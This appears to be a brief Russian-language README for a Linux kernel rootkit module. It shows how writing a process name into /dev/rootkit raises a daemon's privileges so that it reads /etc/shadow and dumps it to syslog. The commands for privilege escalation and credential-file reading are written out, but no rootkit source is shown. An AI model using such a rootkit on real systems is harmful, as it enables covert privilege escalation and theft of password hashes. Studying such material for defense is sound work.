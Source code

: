 rootkit

Модуль при загрузке создает файл устройства "/dev/rootkit"

Запускаем демон "./mydaemon -c start"

Заставляем читать демон системный файл "/etc/shadow". 
"./mydaemon -c read"
Прав не хватает и он плачет в syslog об этом.

Error file open: Permission denied

"Повышаем" права демона
echo "mydaemon" > /dev/rootkit

Просим повторить демона процедуру чтения. Успех.
В syslog появилось содержимое файла "/etc/shadow"

=======
